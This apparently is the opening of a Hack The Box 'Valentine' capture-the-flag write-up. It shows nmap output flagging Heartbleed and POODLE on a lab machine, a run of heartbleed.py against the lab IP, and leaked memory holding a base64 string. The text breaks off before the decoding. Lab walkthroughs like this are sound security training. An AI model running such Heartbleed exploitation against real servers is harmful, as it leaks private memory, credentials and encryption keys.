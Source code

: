 ```
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://www.openssl.org/news/secadv_20140407.txt
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|_      http://cvedetails.com/cve/2014-0160/
| ssl-poodle:
|   VULNERABLE:
|   SSL POODLE information leak
|     State: VULNERABLE
|     IDs:  BID:70574  CVE:CVE-2014-3566
|           The SSL protocol 3.0, as used in OpenSSL through 1.0.1i and other
|           products, uses nondeterministic CBC padding, which makes it easier
|           for man-in-the-middle attackers to obtain cleartext data via a
|           padding-oracle attack, aka the "POODLE" issue.
|     Disclosure date: 2014-10-14
|     Check results:
|       TLS_RSA_WITH_AES_128_CBC_SHA
|     References:
|       https://www.securityfocus.com/bid/70574
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3566
|       https://www.imperialviolet.org/2014/10/14/poodle.html
|_      https://www.openssl.org/~bodo/ssl-poodle.pdf
|_sslv2-drown:

Nmap done: 1 IP address (1 host up) scanned in 58.90 seconds
kali@kali:~/htb/Valentine$
```

The heartbleed exploit is fairly well known. So I know it’s a really high risk vulnerability. So I decide to try it out.

```
kali@kali:~/htb/Valentine$ python heartbleed.py -n 10 -p 443 10.129.1.190
```


In the results I find this string:

```
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==Q.j.%B.}^U.o=..:5-...............
Host: 10.129.1.190
User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html) 
```

If we decode this base64 string we get:
